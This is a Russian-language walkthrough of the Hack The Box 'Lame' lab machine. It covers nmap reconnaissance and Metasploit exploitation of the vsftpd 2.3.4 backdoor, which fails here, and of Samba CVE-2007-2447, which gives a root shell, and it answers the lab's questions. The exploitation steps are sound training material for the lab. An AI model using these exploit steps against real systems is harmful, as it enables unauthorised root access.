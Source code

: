 Для начала стоит просканировать nmap, выполнив команду

`nmap -sC -sV <ip> -oN <file>`

```
-sC - использование стандартных скриптов

-sV - обнаружение версий открытых портов

-oN - для вывода результатов сканирования в файл
```

Результат:
```
# Nmap 7.94SVN scan initiated Thu Apr 24 01:08:28 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN lame/nmap 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.069s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-24T01:09:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m36s, deviation: 2h50m00s, median: 23s
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 24 01:09:54 2025 -- 1 IP address (1 host up) scanned in 86.85 seconds

```

Теперь можно ответить на первые два вопроса:

**`How many of the `nmap` top 1000 TCP ports are open on the remote host?`**
- 4

**'What version of VSFTPd is running on Lame?'**
- 2.3.4

Для ответа на третий вопрос необходимо запустить метасплойт, найти и попытаться проэксплуатировать уязвимость для версии 2.3.4

С помощью `searchsploit` посмотрим какие есть уязвимости для `vsftpd`. Для версии 2.3.4 видим бэкдор `https://www.exploit-db.com/exploits/49757`.  (`searchsploit vsftpd 2.3.4 -w`)

![](../src/images/Pasted%20image%2020250424101511.png)

Из вывода nmap ранее мы видим что подключиться к 21 порту можно анонимно.

Попробуем проэксплуатировать данную уязвимость, для этого запускаем метасплойт командой `msfconfig` и ищем уязвимости `search vsftpd 2.3.4`. 

`msf6 > search vsftpd 2.3.4` - поиск уязвимостей
`msf6 > use 0` - выбор уязвимости
`msf6 > show options` - просмотр опций
`msf6 > set RHOST <ip>` -задание адреса атакуемой машины
`msf6 > run` - эксплуатация уязвимости

![](../src/images/Pasted%20image%2020250424102121.png)

Из вывода следует, что данная уязвимость недоступна.

**`There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?`**
- no

Для ответа на следующий вопрос, обратимся к выводу nmap 

**What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".**
- 3.0.20

Для ответа на следующий вопрос предлагаю еще раз воспользоваться `searchsloit`

`searchsploit samba 3.0.20`
`searchsploit -p 16320`

**What 2007 CVE allows for remote code execution in this version of Samba via shell metacharacters involving the `SamrChangePassword` function when the "username map script" option is enabled in `smb.conf`?**
- CVE-2007-2447

![](../src/images/Pasted%20image%2020250424105000.png)

Данная уязвимость позволяет выполнить обратное подключение. 

Откроем metasploit и аналогичным способом как выше, попробуем проэксплуатировать уязвимость. На этот раз успех. 

выполним команду id или whoami, чтобы узнать под каким пользователем мы вошли.

**Exploiting CVE-2007-2447 returns a shell as which user?**
- root

В папке home видим пользователей, один из низ makis, у которого есть файл user.txt, прочитаем его.

`cat home/makis/user.txt`

Содержимое файла и будет ответом на вопрос **Submit the flag located in the makis user's home directory.**

Ответ на вопрос **Submit the flag located in root's home directory.**
находится по адресу root/root.txt

![](../src/images/Pasted%20image%2020250424133337.png)

На этом прохождение машины закончены, но остались еще вопросы. 

**We'll explore a bit beyond just getting a root shell on the box. While the official writeup doesn't cover this, you can look at [0xdf's write-up](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd) for more details. With a root shell, we can look at why the VSFTPd exploit failed. Our initial `nmap` scan showed four open TCP ports. Running `netstat -tnlp` shows many more ports listening, including ones on 0.0.0.0 and the boxes external IP, so they should be accessible. What must be blocking connection to these ports?**

Выполним данную команду `netstat -tnlp` и посмотрим сколько портов открыто. 

![](../src/images/Pasted%20image%2020250424134801.png)

Ответом на данный вопрос будет являться - firewall

**When the VSFTPd backdoor is trigger, what port starts listening?**
Для ответа на этот вопрос, посмотрим на нагрузку в CVE-2011-2523 (`https://www.exploit-db.com/exploits/49757`) - telnet запускается на порту 6200

**When the VSFTPd backdoor is triggered, does port 6200 start listening on Lame?**
Для этого надо выполнить команду `nc 127.0.0.1 6200`

Теперь порт 6200 должен отображаться как LISTEN